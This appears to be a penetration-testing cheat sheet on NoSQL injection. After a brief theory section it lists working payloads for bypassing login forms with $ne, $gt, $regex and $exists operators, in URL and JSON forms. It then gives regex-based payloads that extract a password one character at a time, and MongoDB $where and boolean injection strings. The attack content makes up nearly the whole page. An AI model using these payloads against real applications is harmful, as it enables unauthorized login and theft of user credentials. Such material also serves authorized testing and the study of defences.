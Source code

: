 # NoSQL Injection

## Theory 

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Practice 

### Authentication Bypass 

Using not equal ($ne) or greater ($gt) we can try to bypass authentication
{% tabs %}

{% tab title="URL" %}
```
username[$ne]=toto&password[$ne]=toto          #Not Equal
username[$regex]=.*&password[$regex]=.*        #Regex
username[$exists]=true&password[$exists]=true  #If Exist
username[$ne]=admin&password[$gt]=0            #Greater
```
{% endtab %}

{% tab title="JSON" %}
```
{"username": {"$ne": null}, "password": {"$ne": null} }             #Not Equal
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }           #Not Equal
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }   #greater
```
{% endtab %}

{% endtabs %}


### Extract data

{% tab title="URL" %}
We can use regex to find the lenght of a value
```
username[$regex]=.{25}&pass[$ne]=1
```

We can use regex to extract informations.
```
username[$eq]=admin&password[$regex]=^p
username[$eq]=admin&password[$regex]=^pa
username[$eq]=admin&password[$regex]=^pas

username[$ne]=toto&password[$regex]=^p
username[$ne]=toto&password[$regex]=^pa
username[$ne]=toto&password[$regex]=^pas
```
We can use `$nin` (not in) if you don't want to match with some values.
```
#<Matches non of the values of the array> (not test and not admin)
username[$nin][admin]=admin&username[$nin][test]=test&password[$regex]=^p
```
{% endtab %}

{% tab title="JSON" %}
We can use regex to find the lenght of a value
```
{"username": {"$eq": "admin"}, "password": {"$regex": ".{25}" }}
```

We can use regex to extract informations.
```
{"username": {"$eq": "admin"}, "password": {"$regex": "^p" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pa" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pas" }}
```
We can use `$nin` (not in) if you don't want to match with some values.
```
#<Matches non of the values of the array> (not test and not admin)
{"username":{"$nin":["admin", "test"]}, "username":{"$regex": "^user" } ,"password":{"$ne":"1"}} 
```
{% endtab %}

{% endtabs %}

### MangoDB Injection
{% tabs %}
{% tab title="Payloads" %}
You may try to make boolean based injection on MongoDB with following payloads
```
, $where: '1 == 1'
$where: '1 == 1'
' || 1==1//
' || 1==1%00
```
{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#extract-length-information" %}